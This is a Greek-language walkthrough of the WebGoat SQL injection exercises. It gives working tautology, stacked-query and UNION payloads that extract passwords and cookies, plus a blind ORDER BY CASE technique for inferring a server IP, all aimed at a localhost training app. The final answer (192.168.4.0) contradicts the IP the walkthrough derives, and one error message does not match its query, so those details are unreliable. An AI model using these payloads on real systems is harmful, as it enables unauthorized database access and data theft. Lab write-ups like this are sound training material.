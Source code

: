 # SQL Injection

## Βασική Εισαγωγή SQL Injection

1. Εισαγάγετε το `Smith` ως ερώτημα.
2. Τα επιστρεφόμενα δεδομένα περιέχουν πληροφορίες για τον Jon Smith.
   ![Εικόνα Smith](images/smith.png)
3. Όταν η εισαγωγή SQL γίνεται σύμφωνα με το μάθημα, ανακτώνται όλες οι εγγραφές του πίνακα χρηστών:
4. Εισαγάγετε `Smith' or '1'='1` ως ερώτημα (προσοχή: μην προσθέσετε επιπλέον μονό εισαγωγικό στο τέλος, καθώς περιλαμβάνεται ήδη στο ερώτημα).
5. Τα επιστρεφόμενα δεδομένα περιέχουν όλες τις εγγραφές από τον πίνακα χρηστών.
      ![Εικόνα Smith2](Img/smith2.png)

## Για Αριθμητική Εισαγωγή SQL

1. Εισαγάγετε `1 or 1=1` ή ακόμα και `1 or true` ως ερώτημα.
2. Τα επιστρεφόμενα δεδομένα περιέχουν όλες τις εγγραφές από τον πίνακα χρηστών.
   ![Εικόνα Number](images/number.png)

## Προηγμένη SQL

### Επίθεση Union

#### Γρήγορη Απάντηση
Γράψτε το παρακάτω ερώτημα:
```sql
asd' or true; select * from user_system_data; --
```
* Το όνομα του πίνακα είναι προεπιλεγμένο και μπορεί να βρεθεί στο διαδίκτυο.

#### Αναλυτική Απάντηση
1. Η πρώτη προσπάθεια ήταν να εισαχθεί το `Smith`, καθώς είναι υπαρκτός χρήστης, το οποίο επέστρεψε αποτελέσματα παρόμοια με την προηγούμενη άσκηση. Αυτό μας δίνει πληροφορίες για τη δομή του πίνακα χρηστών: έχει 7 στήλες: `USERID`, `FIRST_NAME`, `LAST_NAME`, `CC_NUMBER`, `CC_TYPE`, `COOKIE`, `LOGIN_COUNT`.
2. Στη δεύτερη προσπάθεια, χρησιμοποιήθηκε η εντολή UNION:
   ```sql
   Smith' union all select userid, user_name, user_name, user_name, user_name, password, cookie from user_system_data; --
   ```
   με αίτημα για 7 στήλες (επαναλαμβάνοντας το `user_name` αρκετές φορές).
3. Ωστόσο, το αποτέλεσμα εμφανίζει το μήνυμα:
   ![Εικόνα Data Types](images/data_types.png)
4. Ας δοκιμάσουμε τώρα ένα διαφορετικό ερώτημα:
   ```sql
   Smith' union select 1, password, password, password, password, password, 1 from user_system_data; --
   ```
   Αποδεικνύεται ότι οι στήλες `USERID` και `LOGIN_COUNT` είναι αριθμητικοί τύποι, ενώ οι υπόλοιπες στήλες του πίνακα χρηστών είναι συμβολοσειρές.
   ![Εικόνα Passwords](images/passwords.png)

## SQL Injection (Μέτρα Αντιμετώπισης)

* Κάνοντας κλικ στη στήλη ταξινόμησης, εκτελείται ένα αίτημα στο:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=ip
  ```
  Το αίτημα αυτό μπορεί να εκμεταλλευτεί με την υποκλοπή του μέσω του ZAP και την παροχή μιας προετοιμασμένης συμβολοσειράς ως `ip`.

* Για να αποκτήσουμε μια ιδέα για τη διεύθυνση IP του `webgoat-prd`, πρέπει πρώτα να βρούμε το όνομα του πίνακα και τη στήλη της IP. Η προφανής εικασία είναι `servers` και `ip`:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)
  ```
* Εάν το όνομα του πίνακα και της στήλης είναι σωστά, ο πίνακας θα ταξινομηθεί βάσει των `id`.
* Μετά την υποκλοπή και την τροποποίηση του αιτήματος, ο πίνακας ταξινομείται βάσει `id`, άρα η εικασία ήταν σωστή.
* Για να ελέγξουμε τη λογική μας, ας στείλουμε το αίτημα:
  ```
  http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM whatever WHERE hostname='webgoat-acc') = '192.168.3.3' THEN id ELSE hostname END)
  ```
  (το `servers` αντικαταστάθηκε με `whatever`).
* Αυτό επιστρέφει τη σελίδα σφάλματος:
  ```html
  <html><body><h1>Whitelabel Error Page</h1>
    <p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p>
    <div id='created'>Thu Mar 08 17:36:52 UTC 2018</div>
    <div>There was an unexpected error (type=Internal Server Error, status=500).</div>
    <div>user lacks privilege or object not found: SERVER</div>
  </body></html>
  ```

Τώρα, γνωρίζοντας τον πίνακα και τη στήλη, ας προσπαθήσουμε να αποκτήσουμε μια ιδέα για την IP του `webgoat-prd`:
1. ```
   http://localhost:8080/WebGoat/SqlInjection/servers?column=(CASE WHEN (SELECT ip FROM servers WHERE hostname='webgoat-prd') LIKE '192.168.%' THEN id ELSE hostname END)
   ```
   ταξινομείται βάσει `hostname` → λανθασμένη εικασία.
2. `LIKE '192.%'`, ταξινομείται βάσει `hostname` → λανθασμένη εικασία.
3. `LIKE '1%'`, ταξινομείται βάσει `ip` → σωστή εικασία! Τώρα μπορούμε να συνεχίσουμε κατά μία θέση.
4. `LIKE '10%'`, ταξινομείται βάσει `ip` → σωστή εικασία!
5. Μετά από αρκετές προσπάθειες…
6. `LIKE '104.130.219.202'`, ταξινομείται βάσει `ip` → σωστή εικασία! Αυτή είναι η πλήρης διεύθυνση IP.
Με γνωστή την `IP 104.130.219.202`, παρέχοντάς την στο πεδίο εισαγωγής επιστρέφεται:
   ![Εικόνα Mitigations](images/mitigations.png)
7. Λύση: `192.168.4.0`
